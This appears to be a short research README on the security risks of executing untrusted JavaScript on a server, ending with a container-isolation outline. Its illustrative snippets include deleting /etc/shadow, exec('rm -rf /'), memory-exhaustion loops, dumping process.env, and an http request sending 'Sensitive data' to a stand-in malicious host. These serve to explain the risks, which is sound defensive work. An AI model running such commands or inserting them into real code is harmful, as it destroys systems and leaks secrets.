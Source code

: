 # Research on running untrusted JavaScript code on another environment

## Introduction

Running untrusted javascript code on the server introduces significant security risks because javascript has access to underlying
APIs and System capabilities provided by the runtime environment (e.g Node, Deno) that if misused can compromise the server environment, other 
running applications, or the confidentiality, integrity and availability of data.

## Key Security Risk

- Arbitrary code execution: If the untrusted javascript code is executed, an attacker can use the provided underlying APIs and system capabilities
provided by the runtime, to run malicious code that can alter env variables, delete or edit or create files and even sensitive files like system files.

Let's take for instance, your `/etc/shadow` file in linux environment, which contains all hashed passwords of your system accounts, this is especially true
if the runtime was given super-user privileges.
```javascript
const fs = require('fs')
fs.unlinkSync('/etc/shadow')
```

- Denial of Service (Dos): Malicious code can be designed to consume excessive resources (CPU, memory, etc.), leading to a denial of service attack, making the server
unresponsive.
Example: Infinite loop.
```javascript
while(true) {}
```
Example: Memory exhaustion
```javascript
const arr = []
while (true) arr.push(new Array(1000000).fill('data'))
```
It can also be used to perform some sort of ReDos attacks.

- Access to sensitive data: Untrusted JavaScript can access environmental variables, read config files and extract sensitive process information.
```javascript
console.log(process.env)
```

- Unauthorized Network access: JavaScript running on NodeJs or any runtime that has capabilities of networking APIs, thus malicious code can make
unauthorized network requests, potentially attacking other services (e.g DDos other services) or sending data to another malicious service.
```javascript
const http = require('http')
http.request({ host: 'https://m.alicious.com/', port: 80 }, (res => console.log(res))).end('Sensitive data')
```

- Path traversal: Even malicious code can use path traversal to access files outside the intended directory.

- Escape from sandboxing: JavaScript when running in runtime environment such as NodeJs has rich capabilities that allow it to bypass simple
sandboxing mechanisms. Using eval or similar functions to execute arbitrary code increases the risk of sandbox escape.

```javascript
const arbitraryCode = 'require("fs").unlinkSync("somefile")'
eval(arbitraryCode)
```

- Native injection attacks: As popular runtimes have the ability to access and execute native scripting languages provided by the os

```javascript
const exec = require('child_process').exec
exec('rm -rf / #Oops')
```

Solution:

1. Implement Container-Level Isolation:
- Create a docker container using node:alpine
- Limit container permissions
- Limit resource usage
- Networking restrictions



